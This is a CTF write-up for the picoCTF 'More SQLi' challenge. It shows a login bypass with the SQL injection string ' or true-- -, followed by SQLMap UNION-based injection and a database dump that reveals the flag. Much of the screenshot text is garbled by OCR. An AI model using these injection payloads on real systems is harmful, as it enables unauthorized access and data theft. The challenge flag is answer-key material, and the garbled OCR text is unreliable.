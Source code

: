 # More SQLi
> Can you find the flag on this website.

## About the Challenge
We were given a simple website that contains login form, here is the preview of the website


[Image extracted text: Security Challenge
Please log in
Username
Password
Log in]


## How to Solve?
If you found a login form on the CTF competition, the need to check if the form is vulnerable to SQL injection. So I tried to input this into the login form

```
Username: ' or true-- -
Password: d
```

And the output is


[Image extracted text: username
true-
password
SQL
query:
SELECT id
FROM
users
WHERE password
AND
username
true]


We still can't log into the dashboard, but we can see the query running on the login form. So to bypass the login form, we need to input `' or true-- -` in the password form


[Image extracted text: Welcome
Log Out
Search Office
Eity
Search
city
Address
Phone
Algiers
Birger Jarlsgatan 7 , 4 tr
+246 8-616 99 40
Bamako
Friedrichstrale 68
+249 173 329 6295
Nairobi
Ferdinandstralse 35
+254 703 039 810
Kampala
Maybe all the tables
+256 720 7705600
Kigali
8 Ganton Street
+250 7469 214 950
Kinshasa
Sternstrale 5
+249 89 885 627 88
Lagos
Karl Johans gate 23B, 4. etasje
+234 224 25 150
Pretoria
149 Rue Saint-Honore
+233 635 46 15 03]


As you can see we can login into an admin dashboard and then there is a search form. And of course we need to do SQL injection again in the search form to obtain the flag. In this case i'll be using SQLMap to exploit the vulnerability


[Image extracted text: IV_
https: [Lsqlmap
org
[!] legal disclaimer: Usage
of
sqlmap
for attacking targets without
prior
mutual consent is illegal.
It is the
user
responsibility to obey all applicable local, state
federal
laws
Developers
assune
no
liability
are not responsible
for
any misuse
or
damage
caused by
this program
[*] starting
@ 23:37:19 /2023-03-28/
[23.37.19]
[INFO] parsing HTTP
request
from
sqlmap
txt
[23:37.19
INFO] testing connection to the target URL
[23:37:20]
INFO] testing if the target URL
content
is stable
[23:37:20
INFO] target URL
content is stable
[23.37:20]
INFO] testing if POST parameter
search
is
dynamic
[23:37:21] [WARNING]
POST parameter
search
does
not
appear to
be
dynamic
[23:37:21] [WARNING
heuristic (basic)
test
shows that POST
parameter
search
might not be injectable
[23:37:21]
INFO] testing
for SQL injection
on
POST parameter
search
[23:37:21]
[INFO] testing
AND boolean-based blind
WHERE
or HAVING
clause
[23:37:25]
INFO] testing
Boolean-based blind
Parameter
replace (original
value)
[23:37:25]
[INFO] testing
Generic inline queries
it
recommended
to perform
only basic UNION tests if there is
not at least
one
other (potential) technique found_
Do you want
to reduce the
number of
requests? [YIn]
[23:37:27]
INFO] testing
Generic UNION query (NULL)
1 to 10 columns
[23:37:29] [INFO]
'ORDER
BY '
technique
appears
to be
usable. This should reduce the time needed
to find the right number of
query
columns
Automatically extending the
range
for current UNION query injection
tech
nique
test
[23:37:30
[INFO] target URL
appears to
have
columns in
query
[23:37:31]
INFO] POST parameter
search
i5
Generic UNION query (NULL)
to 10
columns
injectable
[23:37:31]
[INFO] checking if the injection point
on POST
parameter
search
is
false positive
POST
paraneter
search
i5
vulnerable.
you
to keep testing
the others (if any)? [y/N]
sqlmap identified the following injection point(s) with
total
of 29 HTTP(s) requests
Parameter:
search (POST)
Type :
UNION query
Title:
Generic UNION query (NULL)
columns
Payload:
search-test
UNION ALL SELECT NULL,CHAR(113,106,98,112,113) [ [CHAR(104,83,119,101,109,120,114,74,90,107,120,89,112,88,114,88,104,83,101,75,76,109,66,84,105,113,67,101,106,99,99,72,88,85,79,115,121,118
0,87,114)
CHAR(113,118,112,98,113)
NULL--
uRqv&submit-Search
[23:37:37]
INFO] testing SQLite
[23:37:37]
INFO] confirming SQLite
[23:37:37]
INFO] actively fingerprinting SQLite
[23:37:37]
INFO] the back
DBMS
is SQLite
web
server operating
system:
Linux
Ubuntu
web application technology:
PHP
7.4.3
back-end DBMS
SQLite
[23:37:37] [WARNING] HTTP
error
codes detected
during
run:
500
(Internal
Server
Error)
10 times
end
and
and
want
end]


As you can see the SQLMap detect the `search` parameter is vulnerable to SQL injection. And to obtain the flag we need to dump the database using `--dump` switches


[Image extracted text: IV_
https: L Lsglmap_org
[!] legal disclaimer: Usage
of sqlmap for attacking targets without prior
mutual
consent is illegal
It is the
end user
responsibility
to
liability
and
are not
responsible
for
any misuse
or
damage
caused by this
program
[*] starting @ 23:39:13 /2023-03-28/
[23:39:13]
INFO] parsing HTTP
request
from
'sqlmap
txt
[23:39:13]
INFO] testing connection
to the
target URL
sqlmap
resumed the following injection point(s)
from
stored
session:
Parameter:
search (POST)
Type: UNION query
Title:
Generic UNION
query (NULL)
columns
Payload:
search-test
UNION ALL SELECT NULL,CHAR(113,106,98,112,113) | [CHAR(104,
119,101,109,120,114,74,90,107,120_
112,88,114,88,104
0,87,114) [ [CHAR(113,118,112,98,113)_
NULL -
uRav&submit-Search
[23:39:14]
INFO] testing SQLite
[23:39:14]
[INFO] confirming SQLite
[23:39:14]
[INFO] actively fingerprinting SQLite
[23:39:14]
INFO] the back
end DBMS is SQLite
web
server
operating system:
Linux Ubuntu
web application technology: PHP
7.4.3
back-end DBMS
SQLite
[23:39:14] [INFO] fetching tables for
database:
'SQLite_masterdb
[23:39:14]
[INFO] fetching
columns
for table
more
table
[23:39:15]
[INFO] fetching
entries
for table
more_
table
Database:
<current>
Table:
more
table
[2 entries]
id
flag
picoCTF{G3tting_SQL_InJBcZION_l1k3_yOu_shOulD
c8bZccza}
If
you
are
here,
you must have
seen
it
[23:39:15]
INFO] table
'SQLite_masterdb
more
table
dumped
to CSV file
Troot/.local/share/sqlmap/output/saturn-picoctf net/dump/SQLite
mas
[23:39:15] [INFO] fetching
columns
for table
users
[23:39:15] [INFO] fetching
entries
for table
users
Database:
<current>
83 ,-
89,]


```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}
```